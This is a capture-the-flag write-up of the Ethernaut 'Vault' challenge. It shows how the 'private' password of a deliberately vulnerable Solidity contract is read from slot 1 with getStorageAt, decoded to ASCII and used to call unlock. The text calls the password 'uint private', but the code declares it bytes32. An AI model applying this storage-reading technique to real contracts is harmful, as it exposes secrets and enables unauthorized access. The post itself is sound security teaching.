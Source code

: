 +++
title = "Vault - Ethernaut"
date = "2022-01-08"
author = "DimitrisV"
+++
On this challenge, we have to unlock the vault to win the challenge.
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.11;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

First of all, we can see that we have 2 state variables. One of them is the locked variable which is public. That means that we can very easily see what it is inside the variable by typing:
```
await contract.locked()
```

Also, we have the private variable password. Using the console, we cannot just see what it is inside just easily. Therefore, we have 2 options to try in order to solve the problem.


* By brute forcing the password, until we find the right one and then unlock the vault. It's possible to happen, but there is a much easier way to achieve this.
* Somehow, to dump the password from the storage of the contract.

As we have already mentioned earlier, Ethereum is a public Blockchain. That means that everyone can see what exists inside of it. We know that password variable is uint private. In Ethereum from the Solidity Docs, we know that a private type access mean that a variable can be called only from the same smart-contract, not externally by using an another smart-contract or by calling contract.password() from console. As Ethereum is a public ledger, we can just query the smart-contract from it's storage.
Web3.js can help us achieving this, by typing in console:


```
var pwd // to create a variable 
web3.eth.getStorageAt(contract.address, 1,  function(err, result){pwd = result})
```

This command will return :
```
0x412076657279207374726f6e67207365637265742070617373776f7264203a29
```
That is the password in hexadecimal mode. We can very easily convert this hexadecimal in Ascii from our console by typing:

```
web3.utils.toAscii(pwd)
```
And this will return us:
```
A very strong secret password :)
```

As we have the hexadecimal version of the password, we can simply create a transaction in the function  unlock and the hexadecimal value as an input by typing:
```
contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")
```
Now if we check the Boolean variable locked by typing "contract.locked()" we can see that it is unlocked. We pwned it.
To sum up, we should never insert data unencrypted in Blockchain networks, especially in public Blockchains, as everyone can see what it is inside.

---
If you want to learn more about Smart Contract Security, please check our paper and eCourses:
## Smart-Contract Security:

- [Smart Contract Security: Dimitris Vagiakakakos, Stavros Gkinos, Ioannis Karvelas](https://github.com/sv1sjp/eVoting_Elections_Decentralized_App/blob/main/smartcontract_security_paper.pdf)


* [Smart Contract Security - Educational YouTube Series in Greek - Click Here](https://www.youtube.com/playlist?list=PLZa7COjIxKWzLcMxI9cRNSzOtdR0xvXB7)
